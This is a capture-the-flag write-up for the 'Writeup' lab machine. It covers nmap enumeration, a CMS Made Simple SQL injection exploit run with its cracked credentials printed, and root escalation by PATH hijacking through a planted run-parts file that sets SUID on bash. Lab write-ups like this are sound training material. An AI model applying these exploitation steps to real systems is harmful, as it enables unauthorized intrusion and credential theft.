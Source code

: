 ```yaml
---
permalink: /writeup
layout: post
author: jkr
title: Writeup
date: 2021-07-02
publish: True

description: "Writeup is an easy difficulty Linux box with DoS protection in place to prevent brute forcing. A CMS is found, and contains a SQL injection vulnerability, which is leveraged to gain user
credentials. The user is found to be in a non-default group, which gives write access to part
of the PATH. A path hijacking results in escalation of privileges to root.
"
---
```


# Skills Learned

- Path Hijacking
- Process learning

# Enumeration

## Nmap
* 80
* 22

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%), Linux 4.4 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   516.48 ms 10.10.14.1
2   516.47 ms writeup.htb (10.10.10.138)
```

Port 80

![](/Writeups/Writeup/Pasted image 20210702151938.png)

There is a protection script to block the ip address so cannot brutefore directories. Let's look robots.txt

![](/Writeups/Writeup/Pasted image 20210702152135.png)


![](/Writeups/Writeup/Pasted image 20210702152151.png)

writeup date path looks like blog for machines. On further enumeration we can found what the site is made up of .

![](/Writeups/Writeup/Pasted image 20210702152511.png)

Version 2.2.9.1

![](/Writeups/Writeup/Pasted image 20210702153137.png)

```bash
--------------------------------------------- ---------------------------------
 Exploit Title                               |  Path
--------------------------------------------- ---------------------------------

CMS Made Simple < 2.2.10 - SQL Injection     | php/webapps/46635.py

--------------------------------------------- ---------------------------------
```

An exploit was found in exploitdb let's mirror the exploit.

``` searchsploit -m php/webapps/46635.py```

On running the exploit we got salt and password hash



```python

python2 46635.py -u http://10.10.10.138/writeup --crack -w rockyou.txt


[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9


```

Using the creds we can ssh into the box.

![](/Writeups/Writeup/Pasted image 20210702171443.png)

An interesting group called staff was found. Allows users to add local modifications to the system (/usr/local) without needing root privileges

![](/Writeups/Writeup/Pasted image 20210702171606.png)

In order to exploit this we need to find out some process that runs without full path. Using Pspy we can find out that when a user ssh into the box `run-parts` runs without full path lets's take advantage of that by creating a file `run-parts ` in `/usr/local/bin`

![](/Writeups/Writeup/Pasted image 20210702172142.png)

create a run-parts file in /usr/local/bin and give suid to bash

![](/Writeups/Writeup/Pasted image 20210702172708.png)

 when a new ssh session begins suid permission will be set to bash

![](/Writeups/Writeup/Pasted image 20210702172947.png)